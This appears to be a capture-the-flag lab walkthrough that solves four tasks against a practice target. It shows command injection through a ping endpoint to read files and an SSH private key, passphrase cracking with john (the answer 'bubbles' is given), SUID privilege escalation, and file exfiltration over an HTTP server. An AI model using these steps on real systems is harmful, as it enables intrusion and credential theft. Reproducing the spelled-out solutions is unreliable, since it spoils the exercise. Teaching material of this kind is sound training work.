# The Iron Shell

## Background

You are a hired hacker who's job is to attack a target within an office environment. You have been given access to the network and need to find the machine, enumerate it for vulnerabilities, and attack it to gain root access to it. If you are too loud, you will get kicked from the target and will have to restart your instance.

## Getting Started

You have 4 objectives:

1. Enumerate and exploit an exposed web portal. You know there is an entrypoint at `/ping`
1. Crack `ssh` credentials of a user on the machine.
1. Gain root access to the machine.
1. Exfiltrate sensitive files without tripping any alarms.

You have a provided `wordlist.txt` file located at `http://grader/wordlist`.

---

## Task 1 Command injection on flag ping endpoint

1. Enumerate the target:

    ```bash
    nmap target
    ```

    An nmap scan will reveal port 8000 open and listening.

    

1. confirm the app is listening

    ```bash
    curl http://target:8000/ping?ip=127.0.0.1
    ```

    


1. inject a simple command like `whoami`

    ```bash
    curl "http://target:8000/ping?ip=127.0.0.1;whoami"
    ```

    


1. inject a command to get the files of the user:

    ```bash
    curl "http://target:8000/ping?ip=127.0.0.1;ls%20-lsa"
    ```

    


1. read the flag file in the directory:

    ```bash
    curl "http://target:8000/ping?ip=127.0.0.1;cat%20token1.txt"
    ```

    

## Answer ##
Submit the value obtained from the file as your answer.

## Task 2 SSH key crack and login


1. Find the `.ssh` directory and grab the ssh key:

    ```bash
    curl "http://target:8000/ping?ip=127.0.0.1;cat%20.ssh/id_rsa" > sshkey.txt
    ```

    

    Be sure to remove all lines not related to the certificate using your preferred text editor.

    

    Remove excess lines so resulting file looks like: 

    

1. To recover the passphrase used on the ssh key, we will need to brute force the key.  This can be accomplished by  transforming the ssh key into a hash for a tool like `john`

    ```bash
    python3 /usr/share/john/ssh2john.py sshkey.txt > sshkey.hash
    ```

    

1. Crack the passphrase with John the Ripper using the provided word list at `http://grader/wordlist`

    ```bash
    curl http://grader/wordlist -o wordlist.txt
    john --wordlist=wordlist.txt sshkey.hash
    ```

    

1. chmod the sshkey file for ssh use:

    ```bash
    chmod 600 sshkey.txt
    ```

1. SSH in using the cracked key and passphrase

    ```bash
    ssh -i sshkey.txt user@target
    # Passphrase: bubbles
    ```

    And you're in.

1. To get the token, navigate to `http://grader` in a web browser to reveal this token!  



## Answer ##

Submit the flag value returned from the grader site as your answer.

## Task 3 SUID-Root shell

First, let's try a common privilege escalation technique and find any files that may have the SUID bit set: 

1. Find all SUID root binaries

    ```bash
    find / -type f -user root -perm -4000 2>/dev/null
    ```

    

1. Run the SUID program with its special flag, find `token3.txt` in the /root directory, and recover flag 3.

    ```bash
    /usr/local/bin/rootme -p

    cat /root/token3.txt
    ```

    

## Answer ##

Submit the value within token3.txt as your answer.

## Task 4 Indirect Read and Exfiltrate the flag

1. Verify you cant read the flag directly

    ```bash
    cat /opt/secret/flag.txt
    ```

    You will see its actually a binary file.  **But**, if we run this binary, we get kicked off the system and have to restart our instance. We are wanted about this in the instructions. 

1. In order to run the binary safely and retrieve the flag value, we must exfiltrate to our workstation.  We can do this by starting a simple python web server in the `/opt/secret/` directory.  As we have gained root in the previous task, we can successfully serve up this file for exfil by: 

    ```bash
    cd /opt/secret
    python3 -m http.server 90
    ```

    


1. `wget` the file:

    ```bash
    wget target:90/flag.txt
    ```

    

1. Then `chmod +x` the file: 

    ```bash
    chmod +x flag.txt
    ```

    

1. Finally, run the executable file and retrieve the final flag for this challenge. 

    ```bash
    ./flag.txt
    ```
    
    

## Answer ##
Submit the value given as output from running flag.txt as your answer.